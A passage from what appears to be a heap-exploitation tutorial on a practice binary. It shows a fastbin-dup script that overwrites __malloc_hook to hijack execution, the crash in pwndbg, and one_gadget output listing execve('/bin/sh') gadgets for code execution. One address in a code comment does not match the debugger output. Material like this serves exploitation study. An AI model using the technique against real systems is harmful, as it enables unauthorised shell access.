 ```python

malloc(0x68,b'C'*8) # 3 -> 0x603030 (B)
malloc(0x68,b'D'*8) # 4 -> 0x603000 (A)
malloc(0x68, b'A'*0x13 + p64(0xdeadbeef)) # 0x7ffff7bb6e20 (__malloc_hook) -> 0xdeadbeef

"""
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7ffff7bb4b50 <__malloc_hook>
pwndbg> p __malloc_hook
$2 = (void *(*)(size_t, const void *)) 0xdeadbeef
"""

# Next malloc call will call 0xdeadbeef
malloc(0x68, b'')

io.interactive()

```

On using this script we can see we redirected execution to `0xdeadbeef`

```txt

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
...
*RIP  0xdeadbeef
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
Invalid address 0xdeadbeef

```

Our next goal should be converting this to Code Execution using the `one_gadget`!

```bash
$ ldd fastbin_dup 
	linux-vdso.so.1 (0x00007ffe335a3000)
	libc.so.6 => ../.glibc/glibc_2.30_no-tcache/libc.so.6 (0x00007911c9400000)
	../.glibc/glibc_2.30_no-tcache/ld.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007911c993f000)
$ one_gadget ../.glibc/glibc_2.30_no-tcache/libc.so.6
0xc4dbf execve("/bin/sh", r13, r12)
constraints:
  [r13] == NULL || r13 == NULL || r13 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xc4ddf execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xc4de6 execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rax == NULL || {rax, rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe1fa1 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv
```

